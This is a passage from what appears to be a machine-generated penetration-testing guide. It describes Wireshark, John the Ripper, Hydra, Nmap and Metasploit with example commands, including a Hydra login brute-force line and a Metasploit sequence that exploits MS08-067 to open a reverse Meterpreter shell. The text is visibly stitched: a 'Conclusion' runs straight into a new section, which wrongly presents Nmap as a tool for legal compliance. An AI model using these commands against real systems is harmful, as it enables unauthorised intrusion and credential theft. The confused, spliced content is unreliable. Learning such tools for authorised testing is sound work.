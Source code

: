 Example command: wireshark

4. John the Ripper: John the Ripper is a password cracking tool that can be used to crack passwords on a system. It can be used to test the strength of passwords and to identify weak passwords.

Example command: john <password file>

5. Hydra: Hydra is a network login cracker that can be used to brute-force login credentials. It can be used to test the strength of login credentials and to identify weak passwords.

Example command: hydra -l <username> -P <password file> <target IP>

Websites:

Following are some of the websites that can be used for penetration testing:

1. OWASP: OWASP is a non-profit organization that provides information and resources on web application security. It includes a wide range of resources on web application security, including tools, techniques, and best practices.

2. Penetration Testing Execution Standard (PTES): PTES is a standard for conducting penetration testing. It includes a wide range of resources on penetration testing, including tools, techniques, and best practices.

Conclusion:

Penetration testing is an essential process for identifying security weaknesses and vulnerabilities in a system or network. In this book, we have discussed various tools, commands, and websites that can be used for penetration testing. It is essential to follow ethical guidelines when conducting penetration testing to ensure that it is conducted in a legal and ethical manner.When conducting a penetration test, it is important to comply with legal regulations to avoid any legal issues. Here are some tools, commands, and websites that can help you comply with legal regulations during a penetration test:

1. Nmap: Nmap is a popular network exploration and security auditing tool. It is used to discover hosts and services on a computer network, thus helping you comply with legal regulations by ensuring that you are not scanning unauthorized hosts or services. Here is an example of how to use Nmap to scan a network:

```
nmap -sS 192.168.1.0/24
```

This command will scan all hosts on the 192.168.1.0/24 network using a TCP SYN scan.

2. Metasploit: Metasploit is a powerful penetration testing framework that can be used to test the security of a network. It includes a wide range of modules, including exploits, payloads, and auxiliary modules. Before using Metasploit, it is important to ensure that you have the necessary permissions and licenses. Here is an example of how to use Metasploit to exploit a vulnerable system:

```
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.100
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

This command will exploit the MS08-067 vulnerability on a Windows system with the IP address 192.168.1.100 using a reverse TCP meterpreter payload.
